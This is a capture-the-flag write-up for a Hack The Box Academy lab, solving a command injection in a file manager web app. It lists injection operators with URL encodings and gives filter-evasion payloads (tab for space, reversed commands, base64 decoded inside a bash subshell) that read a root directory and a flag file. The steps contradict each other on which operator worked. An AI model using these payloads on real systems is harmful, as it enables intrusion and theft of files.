





# Write-up: Command Injections

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| Command Injections | Medium | Hack The Box Academy | Command Injection Detection, Bypass Blacklisted Commands |

---

# Context

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

# Exercise

What is the content of '/flag.txt'?

# Process

## Step 1 "Search potential attack"
Navigating through all the web, I found that moving a file from one folder to another makes a GET call, so we can try to use these fields to inject our commands.


## Step 2 "Try to inject a command"
Let's try first to inject a command using Burpsuite, in this case we are gonna use `; whoami` but urlencoded will be `%3b+whoami`.

As we can see, the backend shows "Malicious request denied!", that means that something is blacklisted and we will need to encounter an operator that is not in that list.

## Step 3 "Bypass blacklisted operators"
There are several operators that we can use, we can try all of them to see which one is accepted.
| Injection Operator | Injection Character | URL-Encoded Character |
| :--- | :--- | :--- |
| Semicolon | ; | %3b |
| New Line | \n | %0a |
| Background | & | %26 |
| Pipe | \| |%7c |
| AND | && | %26%26 |
| OR | \|\| | %7c%7c |
| Sub-Shell | `` | %60%60 |
| Sub-Shell | $() | %24%28%29 |

In this case with the Background `&` operator we got a response that is not detected as malicious, we can use that to inject or commands.

## Step 4 "Inject a command"
Since we already know that we can't use commands directly because there is a black list, let's try to avoid writing all of them in the right way, we can use a subshell and send the command in reverse, this way we can bypass blacklisted words.


In this first try we executed the command but we got `id: '/var/www/html/files/tmp`, so this means that the command in the backend is being executed with the `from` parameter first.
```bash
mv /var/www/html/files/{from} /var/www/html/files/{to}
```
If we insert our command in `from`, the command will be in the middle and we will need to ignore the rest of them, so we need inject the command in the `to` parameter, this way we will have the following:
```bash
mv /var/www/html/files/51459716.txt /var/www/html/files/tmp&id
```


## Step 5 "Get files from target folder"
Now we need to get all the files from `/` folder, let's try to use `ls /` with a small change because we can't use an space because is blacklisted, this time we will use a tab `%09` instead, now our command will be `ls%09/` this command will be send in the reverse shell and we can us it to get what is inside the folder.


This command was detected as a Malicious request, so let's try to use the same command but converted to base64.
```bash
delmed@my-computer ~ % echo -n 'ls /' | base64 
bHMgLw==
```
Which can be used in the command injecton with a subshell using `bash<<<$(base64%09-d<<<bHMgLw==)`, this will decode the command as `ls /`.


## Step 6 "Read flag"
Now we can read the flag using the same approach, we can convert the command `cat /flag.txt` to base64 and decode it with a subshell.
```bash
delmed@my-computer ~ % echo -n 'cat /flag.txt' | base64
Y2F0IC9mbGFnLnR4dA==
```


## Result
```
HTB{c0mm4nd3r_1nj3c70r}
```

# Conclusion
This box was a lesson in multi-stage exploitation. After finding a command injection and bypassing an initial filter with a newline (%0a), I discovered an asymmetrical WAF. The final flag capture required advanced payload obfuscation, using Base64 encoding and a tab character (%09) to successfully evade detection.
